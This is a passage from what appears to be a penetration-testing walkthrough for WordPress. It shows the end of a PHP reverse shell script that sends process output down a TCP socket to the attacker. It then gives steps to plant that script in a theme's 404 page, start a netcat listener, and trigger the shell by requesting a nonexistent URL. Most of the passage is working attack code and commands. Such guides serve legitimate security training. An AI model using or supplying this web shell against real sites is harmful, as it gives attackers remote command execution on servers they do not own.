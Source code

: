 ```php
    // If we can read from the process's STDERR
    // send data down tcp connection
    if (in_array($pipes[2], $read_a)) {
      if ($debug) printit("STDERR READ");
      $input = fread($pipes[2], $chunk_size);
      if ($debug) printit("STDERR: $input");
      fwrite($sock, $input);
    }
  }

  fclose($sock);
  fclose($pipes[0]);
  fclose($pipes[1]);
  fclose($pipes[2]);
  proc_close($process);

  // Like print, but does nothing if we've daemonised ourself
  // (I can't figure out how to redirect STDOUT like a proper daemon)
  function printit ($string) {
    if (!$daemon) {
      print "$string
";
    }
  }  
```
{% endcode %}

{% hint style="info" %}
Remember to specify the host machine IP and port on lines 6 and 7
{% endhint %}

***

* Click on the _Update File_ button, go to _Appearance>Themes,_ and activate the theme that has been modified. Then create a _netcat_ listener in our machine

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc -nlvp $port #The port that has been specificated in the script
```
{% endcode %}

***

* Visit the site and search for a URL that does not exist. If we check our listener, we should have gained the reverse shell.

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$URL/asddfasdf #This page doesn't exist and will give us the reverse shell
```
{% endcode %}

***

